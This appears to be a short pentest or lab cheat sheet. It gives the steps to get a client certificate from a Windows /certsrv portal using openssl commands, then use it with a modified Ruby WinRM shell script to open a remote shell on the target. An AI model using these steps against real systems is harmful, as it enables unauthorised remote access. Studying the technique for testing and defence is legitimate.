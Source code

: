 ### REQUIREMENTS: Have access to the /certsrv web portal

### STEPS:

#### 1) openssl genrsa -des3 -out TARGET.key 2048 (Create private key)

#### 2) openssl req -new -key TARGET.key -out TARGET.csr (Create Certificate Signing Request)

#### 3) Access the /certsrv portal to request a certificate

#### 4) Click advanced certificate request, copy-paste the .csr file contents and leave everything as is.

#### 5) Download the certificate as Base64 Encoded

#### 6) Use https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb with a few modifications to use our certificates (Replace the username and password variables with :client_cert => 'certnew.cer' and :client_key => 'TARGET.key'

#### 7) rlwrap ruby winrm_shell.rb

#### 8) Congratulations, we have a shell!
